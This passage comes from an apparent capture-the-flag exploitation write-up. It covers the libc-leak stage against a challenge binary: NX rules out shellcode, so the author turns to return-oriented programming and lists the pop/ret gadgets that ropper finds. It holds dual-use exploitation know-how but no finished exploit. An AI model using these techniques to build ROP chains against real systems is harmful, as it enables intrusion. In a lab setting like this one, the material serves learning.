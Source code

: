 ### Libc leak

Let's proceed with our third payload.

Now that we can jump directly to our payload, we must analyze our situation. We don't have execution in the BSS or the stack. Due to NX being active, we lack any page that is both writable and executable, so shellcode is out of the question. However, we have another technique called ROP. With ROP, we can jump to gadgets, addresses in the code that directly or indirectly contain a `ret` instruction, and build a chain of instructions.

First, let's examine the gadgets in the `.text` section using the command:
```bash
ropper --file debug-2 > gadget.txt
```

Followed by:
```bash
cat gadget.txt | grep ret | grep pop
```
to narrow our search.


```bash
0x00000000000013ef: add byte ptr [rax], al; add byte ptr [rax], al; pop rbp; ret;
0x00000000000013e7: add byte ptr [rax], al; call 0x1030; mov eax, 0; pop rbp; ret;
0x000000000000114c: add byte ptr [rax], al; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000011c9: add byte ptr [rax], al; mov rdi, rax; call 0x1060; nop; pop rbp; ret;
0x00000000000013f1: add byte ptr [rax], al; pop rbp; ret;
0x000000000000115d: add byte ptr [rcx], al; pop rbp; ret;
0x000000000000114b: add byte ptr cs:[rax], al; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000013e9: call 0x1030; mov eax, 0; pop rbp; ret;
0x00000000000011ce: call 0x1060; nop; pop rbp; ret;
0x000000000000114e: call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x0000000000001153: call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000013dd: call 0x12dc; lea rdi, [rip + 0xd31]; call 0x1030; mov eax, 0; pop rbp; ret;
0x0000000000001149: cmp eax, 0x2eba; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000013e4: cmp eax, 0xd31; call 0x1030; mov eax, 0; pop rbp; ret;
0x00000000000013e1: dec dword ptr [rax - 0x73]; cmp eax, 0xd31; call 0x1030; mov eax, 0; pop rbp; ret;
0x00000000000013e3: lea edi, [rip + 0xd31]; call 0x1030; mov eax, 0; pop rbp; ret;
0x00000000000013e2: lea rdi, [rip + 0xd31]; call 0x1030; mov eax, 0; pop rbp; ret;
0x0000000000001158: mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000013ee: mov eax, 0; pop rbp; ret;
0x0000000000001148: mov edi, dword ptr [rip + 0x2eba]; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000011cc: mov edi, eax; call 0x1060; nop; pop rbp; ret;
0x0000000000001147: mov rdi, qword ptr [rip + 0x2eba]; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000011cb: mov rdi, rax; call 0x1060; nop; pop rbp; ret;
0x0000000000001454: pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000001456: pop r13; pop r14; pop r15; ret;
0x0000000000001458: pop r14; pop r15; ret;
0x000000000000145a: pop r15; ret;
0x0000000000001453: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000001457: pop rbp; pop r14; pop r15; ret;
0x000000000000115f: pop rbp; ret;
0x000000000000145b: pop rdi; ret;
0x0000000000001459: pop rsi; pop r15; ret;
0x0000000000001455: pop rsp; pop r13; pop r14; pop r15; ret;
0x00000000000011d3: nop; pop rbp; ret;
```
`Advice`: I switched from using ROPgadget to ropper, since jpl8 showed me some advantages regarding the gadgets displayed in the output in other challenges.
